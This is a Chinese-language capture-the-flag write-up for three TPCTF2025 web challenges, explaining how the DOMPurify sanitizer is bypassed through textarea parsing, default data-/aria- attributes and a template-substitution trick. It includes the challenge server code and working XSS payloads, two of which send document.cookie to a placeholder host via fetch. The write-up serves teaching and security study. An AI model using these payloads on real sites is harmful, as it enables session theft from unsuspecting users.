# TPCTF2025 Web WriteUp-先知社区

> **来源**: https://xz.aliyun.com/news/17228  
> **文章ID**: 17228

---

# Baby layout

## 考点

dompurify库的检测规则对`<textarea>` 中的内容存在检测缺陷，然而浏览器在遇到 `<textarea>` 标签时，会将所有后续内容视为纯文本，直到遇到 `</textarea>`  
比如说

```
  <textarea>
    
  </textarea>
```

浏览器直接

```
    <textarea></textarea>
    
```

从而使得img的src错误触发onerror  




## 分析

简单审计web的js文件

审计全部在注释里了很清晰了

```
// 导入所需的模块  
import express from 'express';  
import session from 'express-session';  
import rateLimit from 'express-rate-limit';  
import { randomBytes } from 'crypto';  
import createDOMPurify from 'dompurify';  
import { JSDOM } from 'jsdom';  
  
// 创建一个 JSDOM 环境并初始化 DOMPurify 用于 HTML 内容净化  
const { window } = new JSDOM();  
const DOMPurify = createDOMPurify(window);  
  
// 存储帖子内容的 Map 对象  
const posts = new Map();  
  
// 默认的文章布局模板  
const DEFAULT_LAYOUT = `  
<article>  
  <h1>Blog Post</h1>  <div>{{content}}</div></article>  
`;  
  
// 定义内容长度限制  
const LENGTH_LIMIT = 500;  
  
// 创建 Express 应用实例  
const app = express();  
app.use(express.json()); // 解析 JSON 请求体  
app.set('view engine', 'ejs'); // 设置 EJS 为模板引擎  
  
// 如果是生产环境，应用 API 路由限流中间件  
if (process.env.NODE_ENV === 'production') {  
  app.use(  
    '/api',  
    rateLimit({  
      windowMs: 60 * 1000, // 时间窗口为 1 分钟  
      max: 10, // 每个 IP 最多访问 10 次  
    }),  
  );  
}  
  
// 配置会话中间件  
app.use(session({  
  secret: randomBytes(32).toString('hex'), // 使用随机生成的密钥加密会话 ID  resave: false,  
  saveUninitialized: false,  
}));  
  
// 初始化会话中的布局和帖子列表  
app.use((req, _, next) => {  
  if (!req.session.layouts) {  
    req.session.layouts = [DEFAULT_LAYOUT];  
    req.session.posts = [];  
  }  
  next();  
});  
  
// 主页路由，渲染主页视图  
app.get('/', (req, res) => {  
  res.setHeader('Cache-Control', 'no-store'); // 设置缓存控制头  
  res.render('home', {  
    posts: req.session.posts, // 当前用户的所有帖子 ID    maxLayout: req.session.layouts.length - 1, // 可用的最大布局索引  
  });  
});  
  
// 发布新帖子的 API 路由  
app.post('/api/post', (req, res) => {  
  const { content, layoutId } = req.body;  
  
  // 参数类型检查  
  if (typeof content !== 'string' || typeof layoutId !== 'number') {  
    return res.status(400).send('Invalid params');  
  }  
  
  // 检查内容长度是否超过限制  
  if (content.length > LENGTH_LIMIT) return res.status(400).send('Content too long');  
  
  // 获取指定的布局模板  
  const layout = req.session.layouts[layoutId];  
  if (layout === undefined) return res.status(400).send('Layout not found');  
  
  // 净化用户提交的内容  
  const sanitizedContent = DOMPurify.sanitize(content);  
  
  // 将净化后的内容插入到布局模板中  
  const body = layout.replace(/\{\{content\}\}/g, () => sanitizedContent);  
  
  // 检查最终生成的帖子内容长度是否超过限制  
  if (body.length > LENGTH_LIMIT) return res.status(400).send('Post too long');  
  
  // 生成唯一 ID 并存储帖子内容  
  const id = randomBytes(16).toString('hex');  
  posts.set(id, body);  
  req.session.posts.push(id);  
  
  // 记录日志  
  console.log(`Post ${id} ${Buffer.from(layout).toString('base64')} ${Buffer.from(sanitizedContent).toString('base64')}`);  
  
  return res.json({ id });  
});  
  
// 添加新布局的 API 路由  
app.post('/api/layout', (req, res) => {  
  const { layout } = req.body;  
  
  // 参数类型检查  
  if (typeof layout !== 'string') return res.status(400).send('Invalid param');  
  
  // 检查布局长度是否超过限制  
  if (layout.length > LENGTH_LIMIT) return res.status(400).send('Layout too large');  
  
  // 净化用户提交的布局内容  
  const sanitizedLayout = DOMPurify.sanitize(layout);  
  
  // 将新布局添加到会话中  
  const id = req.session.layouts.length;  
  req.session.layouts.push(sanitizedLayout);  
  return res.json({ id });  
});  
  
// 查看单个帖子的路由  
app.get('/post/:id', (req, res) => {  
  const { id } = req.params;  
  const body = posts.get(id);  
  
  // 检查帖子是否存在  
  if (body === undefined) return res.status(404).send('Post not found');  
  
  // 渲染帖子视图  
  return res.render('post', { id, body });  
});  
  
// 清理会话数据的 API 路由  
app.post('/api/clear', (req, res) => {  
  req.session.layouts = [DEFAULT_LAYOUT];  
  req.session.posts = [];  
  return res.send('cleared');  
});  
  
// 启动服务器监听端口 3000app.listen(3000, () => {  
  console.log('Web server running on port 3000');  
});
```

不难发现，发帖子和创建layout的api都用了一个库过滤输入

```
DOMPurify.sanitize(content);
```

简单问一下AI确实证实这个库版本存在漏洞给了两个CVE（实际主要是寻求DOMPurify的问题，那么接下来寻找文章进一步分析



简单测试，完全被过滤了

  


```
<article>
  <h1>Blog Post</h1>
  <a id="</textarea>">Starven</a>
</article>
```

/api/layout

```
"
```

/api/post

```
x" onerror="alert(1)
```

最终如下  




其实就是onerror触发的xss，利用的DOMPurify对`<testarea>`的检测缺陷  


最终payload

/api/layout

```
"
```

/api/post

```
x" onerror="fetch('http://ip:8080/?a='+document.cookie)
```



```
TPCTF{EAsY_H7ML_A77r1bU7E_1NjEc710n}
```

# Safe layout

## 考点

一句话概括

DOMPurify默认ALLOW\_DATA\_ATTR和ALLOW\_ARIA\_ATTR属性为true，可以在限制了ALLOWED\_ATTR白名单空时仍然可以使用data-\* 和aria-\* 属性保留html标签使得不被DOMPurify过滤

上个题的升级版，先diff看看发现就一个地方区别



## 分析

可以看到，这次的对标签的检测规则已经白名单空了，因此不能再从检测规则去绕来绕去



但是不要忘了，/api/layout这个接口并没有replace



继续学习参考文章，读到这里发现，即使是`"ALLOWED_ATTR": []` 设置了html标签白名单空  
当然是存在绕过的



简单来说：data-和aria-属性可以用  
因为没有设置这俩参数为false，默认为true因此可以使用

* ALLOW\_DATA\_ATTR（[默认](https://github.com/cure53/DOMPurify/blob/f0d750730b2595722bde07bbbee1ee65c79943aa/src/purify.ts#L257)= true | [usage](https://github.com/cure53/DOMPurify/blob/f0d750730b2595722bde07bbbee1ee65c79943aa/src/purify.ts#L1190)）：允许使用data-属性。
* ALLOW\_ARIA\_ATTR（[默认](https://github.com/cure53/DOMPurify/blob/f0d750730b2595722bde07bbbee1ee65c79943aa/src/purify.ts#L254)= true | [usage](https://github.com/cure53/DOMPurify/blob/f0d750730b2595722bde07bbbee1ee65c79943aa/src/purify.ts#L1195)）：允许使用aria-属性。

```
</img>
```

可以看到我们的img标签成功保留  
  
接下来就简单了随便构造个xsspayload即可

```
payload" src=1 onerror=alert(1) title="payload
```



最终payload

```
</img>
```

```
payload" src=1 onerror=fetch('http://ip:8080/?flag='+document.cookie) title="payload
```



```
TPCTF{D0_n07_M0D1FY_7h3_0U7PU7_Af73R_H7mL_5aN171z1n9}
```

# Safe layout revenge

## 考点

* DOMPurify检测规则：依赖正则`/<[/\w]/`
* 此处使用{{content}}导致出现`<{`这种，DOMPurify的检测规则无法检测，使得我们可以动态替换content内容构造xss payload

## 分析

非常符合预期，毫无征兆的把上个题的两个属性设置为了false，只有另寻他路  


/api/layout

```
xxx<style>{{content}}<{{content}}</style>
```

接下来构造xss即可  
/api/post

```
img src onerror=alert(1) <style></style>
```

成功  
